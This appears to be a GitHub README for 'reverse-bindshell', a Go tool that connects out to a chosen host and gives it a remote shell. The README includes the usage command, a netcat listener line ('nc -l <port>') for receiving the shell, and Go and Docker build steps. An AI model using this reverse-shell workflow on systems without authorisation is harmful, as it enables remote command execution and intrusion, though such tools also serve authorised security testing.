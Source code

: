 <h1 align="center">reverse-bindshell</h1>

<p align="center">
  Create a reverse bindshell: connect to a target host, providing it a shell.
</p>

<p align="center">
  <a href="https://travis-ci.org/darnould/reverse-bindshell" target="_blank"><img src="https://img.shields.io/travis/darnould/reverse-bindshell.svg?style=flat-square"></a>
</p>

## Usage
```
./reverse-bindshell host:ip
```

Before running this, you'll want to be listening on the specified port on an accessible host.

Running `netcat` as following on that host should do the trick:
```
nc -l <port>
```

Now you can enter commands to remotely execute on the machine running `reverse-bindshell`.

## Building
A single `reverse-bindshell` executable will be produced.

### With Go installed
```
go build
```

### With Docker installed
```sh
docker run -v "$PWD":/go/src/github.com/darnould/reverse-bindshell -w /go/src/github.com/darnould/reverse-bindshell golang:1.3 go build
```


